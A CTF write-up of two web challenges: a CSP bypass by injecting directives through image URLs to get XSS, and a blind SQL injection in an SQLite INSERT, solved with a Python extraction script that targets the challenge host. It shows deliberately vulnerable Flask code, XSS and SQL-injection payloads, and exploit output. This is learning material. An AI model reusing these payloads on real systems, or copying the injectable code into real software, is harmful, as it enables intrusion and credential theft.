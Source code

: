 
## (Web) CSP 1 [335 pts]

> The CSP 1 challenge is stealing the admin cookie using xss. Buf, Have to bypass csp to try xss.

```python
import urllib.parse
import uuid

from flask import Flask, render_template, request, redirect, make_response
from bs4 import BeautifulSoup as bs
from peewee import *


app = Flask(__name__)

db = SqliteDatabase("core.db")


class Post(Model):
    id = AutoField()
    token = CharField()
    content = TextField()

    class Meta:
        database = db


@db.connection_context()
def initialize():
    db.create_tables([Post])


initialize()


@app.route('/')
def index():
    return render_template("index.html")


@app.route('/write', methods=["POST"])
def write():
    content = request.form["content"]
    token = str(uuid.uuid4())
    Post.create(token=token, content=content)
    return redirect("/display/" + token)


def filter_url(urls):
    domain_list = []
    for url in urls:
        domain = urllib.parse.urlparse(url).scheme + "://" + urllib.parse.urlparse(url).netloc
        if domain:
            domain_list.append(domain)
    return " ".join(domain_list)


@app.route('/display/<token>')
def display(token):
    user_obj = Post.select().where(Post.token == token)
    content = user_obj[-1].content if len(user_obj) > 0 else "Not Found"
    img_urls = [x['src'] for x in bs(content).find_all("img")]
    tmpl = render_template("display.html", content=content)
    resp = make_response(tmpl)
    resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
    return resp


if __name__ == '__main__':
    app.run()
```
You check the CSP header setting part in `/display/<token>`, you can see that the option of `img-src` is set as the value of `{filter_url(img_urls)}`. By default, the option of `script-src` is set to `none`, So the script cannot be executed. However, You can put any value we want in the CSP header, if we give `script-src` as `unsafe-eval`, we can execute the inline script.

```html
<img src="https://*; script-src 'unsafe-inline'" onerror="alert(1);">
```
```python
    resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' https://*; script-src 'unsafe-inline'; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
```
So, if you just pass the image tag as above, CSP is set up as above and you can execute the inline script. Using this, run the script with `onerror` and read the flag.

```
we{2bf90f00-f560-4aee-a402-d46490b53541@just_L1k3_<sq1_injEcti0n>}
```

---
## (Web) Phish [592 pts]

> The Phish challenge is getting the password using the simple sql injection.

```python
import os

from flask import Flask, render_template, request
from peewee import *

app = Flask(__name__)

db = SqliteDatabase("core.db")


class User(Model):
    id = AutoField()
    password = CharField()
    username = CharField(unique=True)

    class Meta:
        database = db


@db.connection_context()
def initialize():
    try:
        db.create_tables([User])
        User.create(username="shou", password=os.getenv("FLAG"))
    except:
        pass


initialize()


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/add", methods=["POST"])
def add():
    username = request.form["username"]
    password = request.form["password"]
    sql = f"INSERT INTO `user`(password, username) VALUES ('{password}', '{username}')"
    try:
        db.execute_sql(sql)
    except Exception as e:
        return f"Err: {sql} <br>" + str(e)
    return "Your password is leaked :)<br>" + \
           """<blockquote class="imgur-embed-pub" lang="en" data-id="WY6z44D"  ><a href="//imgur.com/WY6z44D">Please 
        take care of your privacy</a></blockquote><script async src="//s.imgur.com/min/embed.js" 
        charset="utf-8"></script> """


if __name__ == "__main__":
    app.run()
```
The challenge description says that the password for the `shou` user is a flag, so you cat leak the `shou` password. Since Are using SQLite, You can do SQLite injection. However, I tried Time Based SQL Injection, but strangely it said that the `sqlite_sleep()` and `sqlite3_sleep()` functions could not be found. fuck

```pytnon
class User(Model):
    id = AutoField()
    password = CharField()
    username = CharField(unique=True)

    class Meta:
        database = db
```
So I thought I would have to do Error Based Injection, so when I checked, I could see that the column was set as above. If you look at the username setting, you can see that `unique=True` is set. This is to prevent the use of duplicate values. This service is designed to prevent duplicate user account creation.

So, if the specific query statement is true, the user is signed up as an unsigned user, if the specific query statement is false, the registered user is signed up, and an error occurs by `unique=True`.

```python
import requests
from pwn import *

url = "http://phish.sf.ctf.so/add"
user1 = 'aafaz'
user2 = 'baaff'
password = ''
d = 6

for i in range(64):
    for j in range(32, 126):
        u, p = user1 + str(d + 1), user2 + str(d + 1)
        payload = f'{u}\'), (\'f\', (select case when (select unicode(substr(password,{i+1},1)) from user where username = "shou") = {j} THEN "{p}" ELSE "pocas" END)) --'
        data = {'username':payload, 'password':'dummy'}
        res = requests.post(url, data=data).text
        if 'Your password is leaked' in res:
            password += chr(j)
            log.info('Admin password : {}'.format(password))
            d = d + 1
            break
        d = d + 1
```
I wrote the exploit code as above.

```
[*] Admin password : we{
[*] Admin password : we{e
[*] Admin password : we{e0
(...)
[*] Admin password : we{e0df7105-edcd-4dc6-8349-f3bef83643a9@h0P3_u_didnt_u3e_sq1
[*] Admin password : we{e0df7105-edcd-4dc6-8349-f3bef83643a9@h0P3_u_didnt_u3e_sq1m
[*] Admin password : we{e0df7105-edcd-4dc6-8349-f3bef83643a9@h0P3_u_didnt_u3e_sq1m4
[*] Admin password : we{e0df7105-edcd-4dc6-8349-f3bef83643a9@h0P3_u_didnt_u3e_sq1m4P
[*] Admin password : we{e0df7105-edcd-4dc6-8349-f3bef83643a9@h0P3_u_didnt_u3e_sq1m4P}
```

```
we{e0df7105-edcd-4dc6-8349-f3bef83643a9@h0P3_u_didnt_u3e_sq1m4P}
```

---
